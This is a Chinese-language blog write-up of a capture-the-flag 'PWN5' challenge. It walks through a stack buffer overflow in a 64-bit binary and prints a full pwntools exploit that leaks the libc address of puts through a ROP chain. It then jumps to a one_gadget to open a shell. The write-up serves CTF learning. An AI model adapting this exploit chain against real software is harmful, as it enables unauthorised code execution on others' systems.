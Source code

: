 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      PWN5 WriteUp 				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-8.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 缓冲区溢出
    - CTF
    - PWN
---
```




### PWN5

#### 考点

- 对`ldd, patchelf`命令以及依赖库版本的了解
- 对ASLR机制的理解
- `one_gadget`工具使用

#### 解题过程

- 首先使用`checksec, files`查看程序基本信息：

![checksec](/img/posts/2023-10-23-pwn5/images/checksec.png)

![file](/img/posts/2023-10-23-pwn5/images/file.png)

​		可见程序为64位，开启DEP保护，为动态链接的程序。

- 使用`ldd`命令检查程序运行所需的依赖库，其中包括程序所依赖的C函数库`libc.so.6`以及动态链接器 `ld-linux-x86-64.so.2` 的路径  

![ldd](/img/posts/2023-10-23-pwn5/images/ldd.png)

- 使用 `patchelf `替换 `libc` 与 `ld` 到指定版本，该步骤目的是将本地运行环境调整到与预期一致。 `libc` 与 `ld` 的版本必须匹配，题中给定了 `libc-2.23.so` ，因此需要2.23版本的 `ld` 。 

 ![ldd-1](/img/posts/2023-10-23-pwn5/images/ldd-1.png)

- 使用`ida`打开，反编译：

`main`: 

![main](/img/posts/2023-10-23-pwn5/images/main.png)

`stack_flow`: `read`函数存在漏洞

![stack_flow](/img/posts/2023-10-23-pwn5/images/stack_flow.png)

- 使用`ROPgadget`工具查找程序中是否有`system`函数和`"/bin/sh"`字符串，结果表明并没有，因此需要自行输入字符串，并从动态链接库中查找`system`函数的偏移

![system&bin_sh](/img/posts/2023-10-23-pwn5/images/system&bin_sh.png)

- 构造脚本获取到`puts`函数在`libc`中的相对偏移：

  ```python
  from pwn import *
  
  
  libc= ELF('./libc-2.23.so')
  
  libc_puts_offset = libc.symbols['puts']
  print(hex(libc_puts_offset))
  ```

![puts_related_addr](/img/posts/2023-10-23-pwn5/images/puts_related_addr.png)

- 使用`one_gadget`工具获取到命令地址`exceve("/bin/sh")`

![one_gadget](/img/posts/2023-10-23-pwn5/images/one_gadget.png)

- 构造python脚本实现`"/bin/sh"`字符串的输入。

```python
from pwn import *

# 启动进程
context(arch='amd64', log_level='debug')
p = process('./pwn5')

elf = ELF("./pwn5")
p.recvuntil("Give me your payload\n")

# 参数地址
libc= ELF('./libc-2.23.so')
libc_puts_offset = libc.symbols['puts']
print(hex(libc_puts_offset))
libc_system_offset = libc.symbols['system']
print(hex(libc_system_offset))
libc_one_gadget_offset = 0x0f1247

pop_rdi = 0x400613
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main_addr = 0x400587

# 构造payload泄漏puts函数地址
payload1 = flat(b'a'*(0x20 + 8), pop_rdi, puts_got, puts_plt, main_addr)
p.send(payload1)
puts_libc = p.recv(6)
puts_libc = u64(puts_libc.ljust(8, b'\x00'))
success(hex(puts_libc))

libc_base = puts_libc - libc_puts_offset
success(hex(libc_base))
one_gadget = libc_base + libc_one_gadget_offset
print(hex(one_gadget))

payload2 = b'a'*(0x20 + 8) + p64(one_gadget)
p.recvuntil("Give me your payload\n")
# gdb.attach(p, 'b *0x400585')
p.send(payload2)
p.interactive()
```



- 重要的函数地址以及偏移量：

| 函数                   | 地址               |
| ---------------------- | ------------------ |
| `main`                 | 0x0000000000400587 |
| `stack_overflow`       | 0x0000000000400566 |
| `stack_overflow_leave` | 0x0000000000400585 |
| `pop_rdi`              | 0x0000000000400613 |
| `one_gadget`           | 0x0f1247           |



#### 结果

成功执行命令：

![image-20231001182756684](/img/posts/2023-10-23-pwn5/images/result.png)
